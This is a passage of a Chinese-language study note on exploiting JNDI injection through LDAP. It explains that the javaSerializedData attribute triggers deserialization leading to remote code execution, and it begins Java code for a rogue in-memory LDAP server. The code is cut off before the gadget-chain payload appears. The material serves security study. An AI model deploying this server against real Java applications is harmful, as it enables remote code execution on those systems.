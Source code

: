 在进入deserializeObject，这个位置就直接触发一个反序列化实现RCE，跟之前低版本触发点不一样

![image-20221126153813345](img/image-20221126153813345.png)



所以我们只需要给`javaSerializedData`写入我们反序列化值

这个反序列化值，cc链cb链都可以。

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import com.unboundid.util.Base64;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class LdapServer2 {
    public static void main(String[] args) throws Exception {
        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig("dc=example,dc=com");
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("127.0.0.1"),
                389,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()
        ));
        config.addInMemoryOperationInterceptor(new OperationInterceptor());
        InMemoryDirectoryServer directoryServer = new InMemoryDirectoryServer(config);
        directoryServer.startListening();
        System.out.println("ldap://127.0.0.1:389 is working...");
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
```